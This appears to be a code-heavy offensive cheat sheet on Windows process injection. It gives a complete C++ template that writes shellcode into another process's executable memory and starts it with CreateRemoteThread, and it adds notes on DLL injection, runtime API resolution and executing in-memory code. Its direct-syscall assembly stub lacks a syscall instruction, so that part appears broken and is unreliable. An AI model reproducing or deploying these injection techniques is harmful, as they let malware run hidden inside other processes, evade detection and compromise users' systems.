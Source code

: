 # Windows 
### Injection and Hijacking

### Win APi Functions

```cpp
OpenProcess ()

VirtualAllocEx ()

WriteProcessMemory()

CreateRemoteThread()
```

### Inject thread 


```cpp
#include <windows.h>
#include <processthreadsapi.h>

int main() {

    HANDLE hProcess, hThread;
    LPVOID start_ptr;
    DWORD tid;
    size_t written;

    char shellcode[] = {

    };
    start_ptr = (LPVOID) 0x13370000;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2676);

    start_ptr = VirtualAllocEx(hProcess, start_ptr, 0x1000,  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, start_ptr, shellcode, 256, &written);

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)start_ptr, NULL, 0, &tid);

}

```


### without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```
typedef NTSTATUS (NTAPI *NtCreateFile_t)(
    PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK,
    PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG
);
GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
```


```cpp
    execMem = VirtualAlloc(NULL, sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(execMem, code, sizeof(code));
    f = (Func)execMem;
    f(&hPipe);
```

### inject inline asm with naked function



```asm
; syscall.asm

.code
public MyNakedFunction

MyNakedFunction proc
    mov r10, rcx        ; Windows x64 ABI requires syscall target in R10
    mov eax, 0c4h       ; 
    ret
MyNakedFunction endp

end
```
assemble

```
ml64 /c /Fo syscall.obj syscall.asm 
```

then in your cpp
```cpp
extern "C" int MyNakedFunction(HANDLE *); 
```

compile with 
```
cl /O2 windows.cpp syscall.obj
```
